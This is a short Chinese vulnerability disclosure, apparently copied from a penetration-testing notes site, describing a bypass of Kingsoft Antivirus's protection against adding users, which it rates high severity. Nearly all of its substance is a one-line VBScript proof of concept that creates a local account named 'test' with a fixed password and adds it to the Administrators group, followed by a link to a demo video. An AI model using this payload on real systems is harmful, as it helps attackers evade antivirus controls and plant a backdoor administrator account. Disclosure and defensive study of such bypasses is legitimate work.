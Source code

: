 # 金山毒霸添加用拦截功能绕过

> 原文：[http://book.iwonder.run/内网渗透/内网渗透/金山毒霸/1.html](http://book.iwonder.run/内网渗透/内网渗透/金山毒霸/1.html)

# 相关厂商

金山毒霸

# 漏洞类型

拦截绕过

# 自评危害等级

高危

# 详细介绍：

金山毒霸添加用拦截功能绕过

POC 如下：

```
set wsnetwork=CreateObject("WSCRIPT.NETWORK"):os="WinNT://"&wsnetwork.ComputerName:Set ob=GetObject(os):Set oe=GetObject(os&"/Administrators,group"):Set od=ob.Create("user","test"):od.SetPassword "password":od.SetInfo:Set of=GetObject(os&"/test",user):oe.add os&"/test" 
```

![image](img/42c5554eaff4c67bc10394d0ae9f102c.png)

测试视频演示下载地址：[https://pan.baidu.com/s/1YsRrLVeALZH0vudbCn6WPQ](https://pan.baidu.com/s/1YsRrLVeALZH0vudbCn6WPQ) 0sec 链接如挂，请群内反馈,谢谢

